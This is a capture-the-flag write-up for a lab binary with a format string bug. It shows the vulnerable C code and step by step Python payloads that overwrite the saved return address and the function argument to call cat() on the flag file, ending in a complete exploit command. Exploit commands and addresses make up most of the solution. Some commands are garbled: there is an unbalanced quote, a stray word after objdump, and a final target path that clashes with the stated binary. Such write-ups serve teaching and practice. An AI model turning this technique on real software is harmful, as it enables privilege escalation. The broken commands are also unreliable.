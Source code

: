 # mission1 ~ string format bugs
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission1.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.

## compiled options
The executable program is compiled in 32bit, the stack is not executable and the canary is inactive.
```
gcc -m32 -no-pie -O0 -o mission1 mission1.c
```
## Code overview
The vulnerable print is in the function view_saved_art(), which will print strings previously saved in the create_art() function.
```
void view_saved_art(char* buffer)
{
    char padding[240];

    if(strlen(buffer) == 0)
    {
        printf("You have not saved any art yet!\n");
    }
    else
    {
        printf("Here is your saved art:\n");
        printf(buffer);
        putchar('\n');
    }
}
```
to be able to save a string this must include at least une *cat_features*, otherwise the execution will be killed.
```
// Cat Features
const char CAT_FEATURES[][8] = {"/\\_/\\", "( o.o )", "> ^ <"};
```
```
// Check if the ASCII Art corresponds to a cat (only cats are allowed)
if (strstr(buffer, CAT_FEATURES[0]) == NULL && strstr(buffer, CAT_FEATURES[1]) == NULL && strstr(buffer, CAT_FEATURES[2]) == NULL)
{
    printf("Sorry, only cat ASCII art is allowed!\n");
    memset(buffer, 0, MAX_ART_LENGTH);
    return;
}
```
inside the code is also provided a cat() function, this function will take as input a string, verify that the string only contains lower case characters, ad after call a system("cat" + input_string )
```
void cat(char* arg)
{
    char buffer[64];
    memset(buffer, 0, 64);

    // Protection against hackers who hate cats
    // Put a null byte at the first occurrence of ;
    // This will prevent the user from executing multiple commands
    for (int i = 0; i < strlen(arg); i++)
    {
        if (arg[i] == ';')
        {
            arg[i] = '\0';
            break;
        }
    }

    // Only allow lowercase letters in arg
    for (int i = 0; i < strlen(arg); i++)
    {
        if (arg[i] < 'a' || arg[i] > 'z')
        {
            printf("What are you thinking? Cats are a serious matter.\n");
            return;
        }
    }

    // Concate strings
    strcat(buffer, "cat ");
    strcat(buffer, arg);

    // Execute the cat (not in the way you think ;)
    system(buffer);
}
```
### command list
to choose which action triggered the program provide a numerical choice:
* **1 -** View example art
* **2 -** Save your own art
* **3 -** View your saved art
* **4 -** Exit
## Solution
[String format exploit](https://owasp.org/www-community/attacks/Format_string_attack) occurs when the submitted data of an input string is evaluated as a command by the application. an attacker can use specific string placeholders to overwrite some addresses in the program's virtual memory, causing new behaviors that could compromise the security or the stability of the system. <br>
useful placeholders are:
* **%N$x:** print characters saved on the stack, N is the offset from the stack base.
* **%Nc:** print exactly N characters.
* **%N$n** print in the address pointed by the argument the number of chars printed so far (N is the offset from the pointed address).

> **note:** % is \x25 in the ASCII table and $ is \x24

In order to correctly call the cat() function we need to sucessfully perform 2 String format exploit (in the same string):
1. overwrite the saved EIP value with the address of the cat function
2. save the string *flag;;;;* as the input of the cat function 
> **note:** the string itself will be saved in the buffer we want to write the pointer (reg number) to the input.

**Step 1 overwrite the saved EIP:**

* Estimate the offset from the buffer to the base of the stack, we will use a Python loop to increase the POS until %[POS]$x  prints the buffer content itself.
  ```
  for counter in {1..150}; do (python -c "print '2\n' + 'flag;;;;' + 'AAAA\x25' + str($counter) + '\x24x> ^ \x3c\n3\n4\n'"; cat - ) | env -i /home/[USERNAME]/mission1/mission1; done
  ```
  we are searching for "AAAA41414141" as output.<br><br>
* We add *flag;;;;* and print again the buffer content to verify the previous step. in our case POS=87
    > **note:** strlen("flag;;;;") = 2 word

  ```
  python -c "print '2\n' + 'flag;;;;' + 'AAAABBBB' + '\x25[POS+2]\x24hx'+ 'W +'\x25[POS+3]\x24hx'+ '> ^ <\n3\n4\n'" > ./writable/input.txt
  ```
  we are searching for "flag;;;;AAAABBBB41414242" as output.<br><br>
* We need the saved EIP address, we run the code with gdb and we need to set a breakpoint in the ret of view_saved_art (address 0x8048a08) to find it. <br>
In our case, the address is: \x5e\xdd\xff\xff
* Find the address of the cat() function  in the executable, with the following command:
  ```
  objdump -d mission1 Mintel
  ```
  in our case equal to: 0x08048a09 ► high_address: 2052 && low_address: 35337<br><br>
* Compute how many characters we need to print. <br>
  We need to overwrite the saved EIP with the low and high address of the cat function, %N$n prints the number of chars printed so far, we have already printed 28 chars, and we use %Nc to print the others. <br>
  we compute the numbers for %Nc as follows:<br>
  N = 2052 - 28 <br>
  M = TOT_ADDRESS -N <br><br>
  
  ```
  python -c "print '2\n' + 'flag;;;;' + '\x5e\xdd\xff\xff\x5c\xdd\xff\xff' + 'AAAABBBB' +  '\x25[N]c\x2589\x24hn\x25[M]c\x2590\x24hnAAA' + '> ^ <\n3\n4\n'" > ./writable/input.txt
  ```

* We can write the first string allowing us to jump in the cat function.
  ```
  python -c "print '2\n' + 'flag;;;;' + '\x5e\xdd\xff\xff\x5c\xdd\xff\xff' + 'AAAABBBB' +  '\x252028c\x2589\x24hn\x2533285c\x2590\x24hnAAA' + '> ^ <\n3\n4\n'" > ./writable/input.txt
  ```
  > **note:** 'AAAABBBB' is a placeholder for 2 addresses we will discover in future phases.

**Step 2 overwrite the function parameters:**
* similar to previous steps we add %[POS]$x to the string and verify the program prints ....41414242
  ```
  python -c "print '2\n' + 'flag;;;;' + '\x5e\xdd\xff\xff\x5c\xdd\xff\xff' + 'AAAABBBB' + '\x252028c\x2589\x24hn\x2533285c\x2590\x24hnAAA'+ '\x25[POS+4]\x24x\x25[POS+5]\x24x' + '> ^ <\n3\n4\n'"> ./writable/input.txt
  ```
* using gdb we search for the EAX address in the cat function, 0xffffdd64. <br>
 And for the buffer address (where the flag is saved), 0xffffdd8c ► high_address: 65335 && low_address: 56716
* Compute how many characters we need to print. <br>
  ```
    python -c "print '2\n' + 'flag;;;;' + '\x5e\xdd\xff\xff\x5c\xdd\xff\xff' + '\x64\xdd\xff\xff\x66\xdd\xff\xff' + '\x252028c\x2589\x24hn\x2533285c\x2590\x24hn'+ '\x25[M]c\x2591\x24hn\x25[N]c\x2592\x24hn' + '> ^ <\n3\n4\n'"> ./writable/input.txt
  ```
the final format string exploit becomes:
```
(python -c "print '2\n' + 'flag;;;;' + '\x5e\xdd\xff\xff\x5c\xdd\xff\xff' + '\x64\xdd\xff\xff\x66\xdd\xff\xff' + '\x252028c\x2589\x24hn\x2533285c\x2590\x24hn'+ '\x2521379c\x2591\x24hn\x258819c\x2592\x24hn' + '> ^ <\n3\n4\n'"; cat - ) | env -i PWD=/home/m259542/mission1 SHLVL=0 /home/m259098/mission2/mission2
```